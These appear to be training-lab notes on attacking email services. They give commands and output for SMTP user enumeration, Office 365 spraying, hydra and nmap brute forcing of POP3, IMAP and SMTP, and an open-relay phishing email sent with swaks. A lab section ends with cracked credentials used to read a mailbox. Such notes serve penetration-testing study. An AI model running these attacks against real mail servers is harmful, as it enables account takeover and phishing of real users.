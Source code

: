 # Attacking Email Services

By default, POP3 clients remove downloaded messages from the email server.
IMAP4 clients do not remove downloaded messages from the email server.

-> This behavior makes it easy to access email messages from multiple devices.

## Enumeration

host -t MX hackthebox.eu
host -t MX microsoft.com
dig mx plaintext.do | grep "MX" | grep -v ";"
dig mx inlanefreight.com | grep "MX" | grep -v ";"

inlanefreight.com.      300     IN      MX      10 mail1.inlanefreight.com.

host -t A mail1.inlanefreight.htb.

Port	Service
TCP/25	SMTP Unencrypted
TCP/143	IMAP4 Unencrypted
TCP/110	POP3 Unencrypted
TCP/465	SMTP Encrypted
TCP/587	SMTP Encrypted/STARTTLS
TCP/993	IMAP4 Encrypted
TCP/995	POP3 Encrypted

sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 $TARGET

## Misconfigurations

### Authentication

telnet $TARGET 25

-> VRFY command check the validity of a particular email username.

VRFY root
252 2.0.0 root

VRFY www-data
252 2.0.0 www-data

VRFY new-user
550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table

-> EXPN same that VRFY expect if we request a distribution list it will list all the users of this list.

EXPN john
250 2.1.0 john@inlanefreight.htb

EXPN support-team
250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb

-> RCPT TO identifies the recipient of the email message. 

MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok

RCPT TO:julio
550 5.1.1 julio... User unknown

RCPT TO:kate
550 5.1.1 kate... User unknown

RCPT TO:john
250 2.1.5 john... Recipient ok

### POP3 Protocol

telnet $TARGET 110

USER julio
-ERR

USER john
+OK

### Automate enumeration

smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t $TARGET

### Cloud Enumeration

-> Validate if our target domain is using Office 365 :
git clone https://github.com/0xZDH/o365spray
python3 o365spray.py --validate --domain msplaintext.xyz

-> Find usernames :
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz

## Password Attacks

hydra -L users.txt -p 'Company01!' -f $TARGET pop3
hydra -l 'fiona@inlanefreight.htb' -p password.list -f $TARGET smtp
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

## Protocol Specifics Attacks : Open relay

Messaging servers that are accidentally or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server. 

-> Mask the source of the messages

nmap -p25 -Pn --script smtp-open-relay $TARGET

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)

swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server $TARGET

## LAB

smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t $TARGET

######## Scan started at Wed Nov 15 16:10:07 2023 #########
10.129.203.12: marlin@inlanefreight.htb exists

sudo nmap $TARGET -sV -p110,143,993,995 -sC

sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 $TARGET

PORT    STATE    SERVICE VERSION
25/tcp  open     smtp    hMailServer smtpd
| smtp-commands: WIN-02, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
110/tcp open     pop3    hMailServer pop3d
|_pop3-capabilities: TOP USER UIDL
143/tcp open     imap    hMailServer imapd
|_imap-capabilities: IMAP4rev1 QUOTA NAMESPACE ACL IDLE RIGHTS=texkA0001 CAPABILITY OK CHILDREN SORT IMAP4 completed
465/tcp filtered smtps
587/tcp open     smtp    hMailServer smtpd
| smtp-commands: WIN-02, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
993/tcp filtered imaps
995/tcp filtered pop3s
Service Info: Host: WIN-02; OS: Windows; CPE: cpe:/o:microsoft:windows

hydra -l 'marlin@inlanefreight.htb' -p password.list -f $TARGET pop3

hydra -l marlin@inlanefreight.htb -p password.list -f $TARGET imap


hydra -L user.txt -p password.list -f $TARGET pop3


telnet $TARGET 143 
1 LOGIN marlin@inlanefreight.htb liverpool

auxiliary(scanner/telnet/telnet_login)
set USERNAME marlin@inlanefreight.htb
set PASS_FILE /home/htb-ac-786011/password.list
set RPORT 143
set RHOSTS 10.129.203.12
set STOP_ON_SUCCESS true

[!] 10.129.203.12:143     - No active DB -- Credential data will not be saved!
[+] 10.129.203.12:143     - 10.129.203.12:143 - Login Successful: marlin@inlanefreight.htb:liverpool
[*] 10.129.203.12:143     - Attempting to start session 10.129.203.12:143 with marlin@inlanefreight.htb:liverpool
[-] Command shell session 1 is not valid and will be closed
[*] 10.129.203.12 - Command shell session 1 closed.
[*] 10.129.203.12:143     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

telnet $TARGET 143 
1 LOGIN marlin@inlanefreight.htb liverpool

telnet $TARGET 110
USER marlin@inlanefreight.htb	
PASS liverpool

openssl s_client -connect $TARGET:imaps
curl -k 'imaps://$TARGET' --user marlin@inlanefreight.htb	
openssl s_client -connect $TARGET:pop3s

hydra -l 'marlin@inlanefreight.htb' -p password.list -f $TARGET pop3s
hydra -l 'marlin@inlanefreight.htb' -p password.list -f $TARGET imaps

nmap -p 143,993 --script imap-brute userdb=users.txt,passdb=password.list $TARGET

nmap -p 143,993 --script imap-brute --script-args userdb=user.list,passdb=passwords.list $TARGET

nmap -p 25 --script smtp-brute --script-args userdb=user.list,passdb=passwords.list $TARGET

hydra -f -l marlin@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt smtp://$TARGET -t 64

[25][smtp] host: 10.129.203.12   login: marlin@inlanefreight.htb   password: poohbear

telnet $TARGET 143
1 LOGIN marlin@inlanefreight.htb poohbear
1 LIST "" *
1 SELECT INBOX
1 STATUS INBOX (MESSAGES)
1 FETCH 1 all
1 FETCH 1 (BODY[HEADER])
1 FETCH 1 (BODY[HEADER.FIELDS (Subject)])
1 FETCH 1 (BODY[TEXT])